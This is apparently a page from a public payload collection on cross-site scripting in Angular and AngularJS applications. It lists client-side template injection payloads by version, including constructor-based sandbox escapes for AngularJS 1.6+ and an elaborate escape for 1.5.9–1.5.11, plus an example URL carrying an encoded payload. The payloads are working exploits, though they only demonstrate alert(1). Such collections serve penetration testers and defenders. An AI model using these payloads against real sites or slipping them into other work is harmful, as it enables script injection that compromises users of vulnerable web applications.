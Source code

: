 # XSS in Angular and AngularJS

## Summary

* [Client Side Template Injection](#client-side-template-injection)
  * [Stored/Reflected XSS](#storedreflected-xss)
  * [Advanced bypassing XSS](#advanced-bypassing-xss)
  * [Blind XSS](#blind-xss)
* [Automatic Sanitization](#automatic-sanitization)
* [References](#references)


## Client Side Template Injection

The following payloads are based on Client Side Template Injection.

### Stored/Reflected XSS

`ng-app` directive must be present in a root element to allow the client-side injection (cf. [AngularJS: API: ngApp](https://docs.angularjs.org/api/ng/directive/ngApp)).

> AngularJS as of version 1.6 have removed the sandbox altogether

AngularJS 1.6+ by [Mario Heiderich](https://twitter.com/cure53berlin)

```javascript
{{constructor.constructor('alert(1)')()}}
```

AngularJS 1.6+ by [@brutelogic](https://twitter.com/brutelogic/status/1031534746084491265)

```javascript
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

Example available at [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?a=<brute+ng-app>%7B%7B[].pop.constructor%26%2340%27alert%5Cu00281%5Cu0029%27%26%2341%26%2340%26%2341%7D%7D)

AngularJS 1.6.0 by [@LewisArdern](https://twitter.com/LewisArdern/status/1055887619618471938) & [@garethheyes](https://twitter.com/garethheyes/status/1055884215131213830)

```javascript
{{0[a='constructor'][a]('alert(1)')()}}
{{$eval.constructor('alert(1)')()}}
{{$on.constructor('alert(1)')()}}
```

AngularJS 1.5.9 - 1.5.11 by [Jan Horn](https://twitter.com/tehjh)

```javascript
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```
